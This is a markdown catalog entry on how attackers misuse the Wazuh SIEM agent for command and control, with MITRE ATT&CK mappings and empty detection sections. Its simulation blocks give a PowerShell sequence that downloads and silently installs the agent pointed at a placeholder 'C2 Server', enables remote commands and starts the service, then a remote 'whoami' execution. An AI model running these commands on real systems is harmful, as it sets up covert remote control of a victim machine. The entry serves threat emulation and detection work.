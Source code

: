 ```yaml
---
title: Wazuh
tags:
  - Command and Control
  - Execution
references:
- https://securelist.com/miner-campaign-misuses-open-source-siem-agent/114022/
- https://documentation.wazuh.com/current/quickstart.html
files: []
---
```


Wazuh is a security platform that provides unified XDR and SIEM protection for endpoints and cloud workloads. The solution is composed of a single universal agent and three central components: the Wazuh server, the Wazuh indexer, and the Wazuh dashboard. 

## C2 Connection
### Description

Wazuh can be downloaded (or transfered) and installed on a system, configured for communication with a specified C2 server. Once Wazuh has remote command execution enabled and the service is started, the agent is ready for command and control operations.

### Simulation
```
powershell.exe Invoke-WebRequest -Uri https://packages.wazuh.com/4.x/windows/wazuh-agent-4.5.3-1.msi -OutFile ${env:tmp}\wazuh-agent-4.5.3-1.msi; 
msiexec.exe /i ${env:tmp}\wazuh-agent-4.5.3-1.msi /q WAZUH_MANAGER='C2 Server' WAZUH_REGISTRATION_SERVER='C2 Server' WAZUH_AGENT_GROUP='1'; 
Start-Sleep -Seconds 20;
Add-Content -Path 'C:\Program Files (x86)\ossec-agent\local_internal_options.conf' -Value 'wazuh_command.remote_commands=1'; 
Add-Content -Path 'C:\Program Files (x86)\ossec-agent\local_internal_options.conf' -Value 'logcollector.remote_commands=1'; 
NET START WazuhSvc
```

### MITRE ATT&CK

T1105: Ingress Tool Transfer
T1219: Remote Access Software

### Detections



## Remote Command Execution
### Description

Once the agent is connected to the "C2" server, the agent allows an adversary to execute commands

### Simulation
```
/var/ossec/bin/agent-control -R 'whoami'
```

### MITRE ATT&CK

T1059: Command and Scripting Interpreter
T1219: Remote Access Software

### Detections


